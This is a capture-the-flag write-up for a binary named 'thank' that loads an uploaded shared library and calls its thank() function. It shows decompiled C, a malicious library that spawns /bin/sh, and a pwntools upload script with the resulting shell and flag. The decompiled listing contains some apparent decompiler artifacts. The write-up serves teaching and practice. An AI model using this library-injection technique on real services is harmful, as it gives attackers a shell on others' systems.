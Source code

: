 # thank

This program only provides an executable called "thank".

Decompiling it was rather simple with Ghidra. Several functions had the sole purpose of calling some other libc function. Here's my decompiled and simplified version of their code:
(All functions which just called another function have been changed to that other function)

```c
void take_file(char *file_name) {
  void* dll;
  long thank;
  char dll_name [40];

  snprintf(dll_name,0x20,"%s",file_name);
  dll = dlopen(dll_name,1);
  if (dll != NULL) {
    if (dlsym(dll,"thank")) {
      (*(code *)thank)();
      return;
    }
  }
  puts("Thanks for your file!");
}

void set_dll_name(char *ptr,int len,char *dll_name,int size) {
  char *end;
  int sum;
  char c;

  sum = 0;
  end = ptr + len;
  while (ptr < end) {
    sum += *ptr;
    ptr++;
  } while (ptr != end);

  snprintf(dll_name,size-8,2,0xffffffffffffffff,"/tmp/%x.so",sum);
  return;
}

void main() {
  int len;
  char *ptr;
  FILE *stream;
  char input [40];

  len = get_file_size();
  ptr = (void *)malloc(len);
  fread(ptr,len);
  set_dll_name(ptr,len,input,0x20);
  stream = fopen(input);
  fwrite(ptr,len,stream);
  fclose(stream);
  free(ptr);
  take_file(input);
  remove(input);
}
```

From this decompiled code, it's rather clear to see that if you provide a shared library with a thank() function, it will call that.

So I wrote the following `thank.c`:
```
#include <stdlib.h>

void thank() {
    system("/bin/sh");
}
```

And compiled it with:
```
gcc -shared -o libthank.so -fPIC thank.c
```

Then used this Python program to send it:
```python
import pwn

io = pwn.remote("challs.pwnoh.io",13373)

with open("./libthank.so", "rb") as f:
    so_contents = f.read()

so_size = len(so_contents)
io.recvuntil(b'What is the size of your file (in bytes)? ')
io.sendline(str(so_size).encode())

io.recvuntil(b'Send your file!\n')
io.sendline(so_contents)

io.interactive()
```

Which gave the following:
```
# python3 exploit.py SILENT
$ ls
flag.txt
run
$ cat flag.txt
bctf{7h4nk_y0ur_10c41_c0mpu73r_70d4y}
```

Giving the flag `bctf{7h4nk_y0ur_10c41_c0mpu73r_70d4y}`



